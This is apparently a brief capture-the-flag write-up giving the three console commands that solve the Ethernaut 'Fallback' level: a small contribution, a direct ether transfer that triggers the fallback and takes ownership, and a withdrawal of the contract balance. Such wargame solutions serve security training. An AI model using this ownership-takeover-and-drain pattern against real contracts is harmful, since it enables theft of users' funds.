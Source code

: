 # Ethernaut solution

## 1. Fallback

```
await contract.contribute({value: 1234});
await contract.sendTransaction({value: 1234});
contract.withdraw();
```